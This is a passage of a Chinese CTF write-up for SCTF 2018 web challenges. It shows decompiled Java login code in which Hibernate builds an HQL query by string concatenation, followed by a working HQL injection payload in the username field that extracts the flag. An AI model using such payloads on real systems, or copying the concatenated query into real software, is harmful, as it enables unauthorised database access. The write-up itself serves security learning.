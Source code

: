 然后在将applicationContext.xml中相应的class反编译，查看过滤条件<br>
这里只贴出关键代码

```
//UserLoginAction.class

    public boolean userCheck(User user) `{`
        List &lt; User &gt; userList = this.userService.loginCheck(user.getName(), user.getPassword());
        if ((userList != null) &amp;&amp; (userList.size() == 1)) `{`
            return true;
        `}`
        addActionError("Username or password is Wrong, please check!");
        return false;
    `}`

    //UserServiceImpl.class

    public List &lt;User&gt; loginCheck(String name, String password) `{`
        name = name.replaceAll(" ", "");
        name = name.replaceAll("=", "");
        Matcher username_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(name);
        Matcher password_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(password);
        if (password_matcher.find()) `{`
            return this.userDao.loginCheck(name, password);
        `}`
        return null;
    `}`

    //UserDaoImpl.class

    public List &lt; User &gt; loginCheck(String name, String password) `{`
        return getHibernateTemplate().find("from User where name ='" + name + "' and password = '" + password + "'");  
    `}`
```

剩下的就是注入了，需要符合Hsql语法规则<br>
最后的payload

```
user.name=1'or(from Flag)like'sctf`{`%25'or''like'&amp;user.password=aaaa
```

### <a class="reference-link" name="easiest%20web%20-%20phpmyadmin"></a>easiest web – phpmyadmin

直接看这个<br>[https://www.jianshu.com/p/f51b6e54d613](https://www.jianshu.com/p/f51b6e54d613)

其他的题我目前的能力还不足以达到，还需努力……



## 参考

[http://www.venenof.com/index.php/archives/551/](http://www.venenof.com/index.php/archives/551/)<br>[http://sec2hack.com/ctf/sctf2018-web-writeup.html](http://sec2hack.com/ctf/sctf2018-web-writeup.html)<br>
在膜一波W&amp;P和NU1L的师傅们



审核人：yiwang   编辑：少爷
